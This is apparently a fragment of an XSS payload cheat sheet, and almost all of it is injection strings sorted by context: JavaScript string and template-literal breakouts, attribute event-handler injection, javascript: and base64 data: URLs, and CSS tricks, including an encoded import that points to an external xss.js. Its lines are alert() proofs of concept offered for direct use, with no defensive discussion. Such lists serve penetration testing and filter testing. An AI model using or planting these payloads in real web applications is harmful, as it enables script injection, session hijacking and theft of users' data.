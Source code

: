 ### JavaScript Context

```javascript
// Breaking out of string context
";alert('XSS');//

// Breaking out of template literals
${alert('XSS')}

// Inside a function argument
'-alert('XSS')-'

// Breaking from comments
*/alert('XSS')/*
```

### Attribute Context

```html
<!-- Event handler injection -->
<button onclick="'-alert('XSS')-'">Click Me</button>

<!-- Breaking out of attribute -->
" onmouseover="alert('XSS')

<!-- Closing tag and adding new tag -->
"><script>alert('XSS')</script>
```

### URL Context

```html
<!-- JavaScript protocol -->
<a href="javascript:alert('XSS')">Click Me</a>

<!-- Data URL -->
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">Click Me</a>
```

### CSS Context

```html
<style>
@import 'data:text/css;base64,LyogKi9ib2R5e3Zpc2liaWxpdHk6aGlkZGVufS8qICovYXtjb2xvcjpyZWR9LyogKi9ib2R5e3Zpc2liaWxpdHk6dmlzaWJsZTtmb250LXNpemU6MTVwdH0vKiAqL3h7Zm9udDoxcHQvMXB0IFwnaHR0cHM6Ly9leGFtcGxlLmNvbS94c3MuanNcJ31h';
</style>

<div style="background:url('javascript:alert(1)')">

<style>
body{font-family:'</style><script>alert(1)</script>'}
</style>
```
